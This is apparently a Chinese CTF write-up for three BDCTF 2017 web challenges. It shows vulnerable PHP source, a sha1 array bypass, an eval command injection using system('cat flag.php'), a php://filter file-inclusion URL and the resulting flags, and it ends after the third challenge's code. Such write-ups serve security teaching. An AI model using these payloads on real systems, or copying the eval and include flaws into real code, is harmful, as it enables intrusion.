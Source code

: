 #### WEB签到

> 签到，格式bdctf{xxxxx}
> http://2a8a372c90b9c52b54ac9f85234f6f20.yogeit.com:8080

```php
 <?php
highlight_file('flag.php');
$_GET['id'] = urldecode($_GET['id']);
$flag = 'bdctf{xxxxxxxxxxxxxxxxxx}';
if (isset($_GET['user']) and isset($_POST['pass'])) {
    if ($_GET['user'] == $_POST['pass'])
        print 'pass can not be user.';
    else if (sha1($_GET['user']) === sha1($_POST['pass'])&($_GET['id']=='margin'))
        die('Flag: '.$flag);
    else
        print 'sorry!';
}
?> 
```

对数组进行哈希会返回null，所以传进去两个数组即可。`Flag: bdctf{welcomeBDCTF2017}`

![](web-checkin.png)

#### 命令注入

> 格式是flag{xxxx}
> http://c3f534c3e77ef68bda72e406337023fb.yogeit.com:8080

```php
<?php 
include "flag.php";
error_reporting(0);
show_source(__FILE__);
$a = @$_REQUEST['hello'];
eval("var_dump($a);");
```

直接执行系统命令，`system('cat flag.php')` 。得到flag为`flag{93odcGA47rSRFDG}` 

![](cmd-inject.png)

#### 这不仅仅是WEB

> 格式bdctf{xxxxx}
> http://64fcfc546e0fafb5b4c327cc1eb36ec4.yogeit.com:8080

存在文件读取：

```php
//index.php
//view-source:http://64fcfc546e0fafb5b4c327cc1eb36ec4.yogeit.com:8080/?page=php://filter/convert.base64-encode/resource=index.php
<?php
$file = $_GET["page"];
if( isset( $file ) )
	include( $file );
else {
	header( 'Location:?page=include.php' );
	exit;
}
?>
```
